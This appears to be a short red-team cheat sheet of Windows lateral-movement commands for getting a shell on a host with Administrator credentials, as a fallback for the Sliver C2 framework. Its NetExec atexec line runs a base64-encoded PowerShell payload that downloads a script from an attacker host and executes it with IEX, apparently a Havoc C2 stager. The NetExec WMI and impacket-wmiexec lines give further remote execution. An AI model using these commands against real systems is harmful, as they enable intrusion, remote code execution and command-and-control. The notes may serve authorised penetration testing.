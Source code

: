 # Netexec

Not really related to token stealing/creation but a good option to get shell when sliver is acting up.

    nxc smb 10.10.100.20 -d . -u Administrator -p 'password' --exec-method atexec -x 'powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAwAC4AMQAxAC8AaABhAHYAMABjAC0AcABzAC4AdAB4AHQAJwApACAAfAAgAEkARQBYAA=='

### WMI

    nxc wmi 10.10.100.20 --local-auth -u Administrator -p 'password' --rpc-timeout 10


### impacket

    impacket-wmiexec ./Administrator:'password'@10.10.100.20
